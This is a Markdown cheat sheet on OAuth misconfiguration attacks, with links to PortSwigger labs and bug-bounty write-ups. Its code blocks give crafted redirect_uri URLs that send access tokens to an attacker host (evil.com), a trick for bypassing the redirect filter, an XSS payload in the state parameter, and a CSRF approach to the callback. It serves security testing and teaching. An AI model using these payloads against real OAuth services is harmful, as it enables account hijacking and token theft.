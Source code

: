 # OAuth Misconfiguration

## Summary

- [Labs](#labs)
- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)


## Labs

* [PortSwigger - Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [PortSwigger - Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [PortSwigger - OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [PortSwigger - Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [PortSwigger - Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## Stealing OAuth Token via referer

From [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544) tweet.

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer 


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```


## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```


## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.


## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.


## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.


## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) By Jack Whitton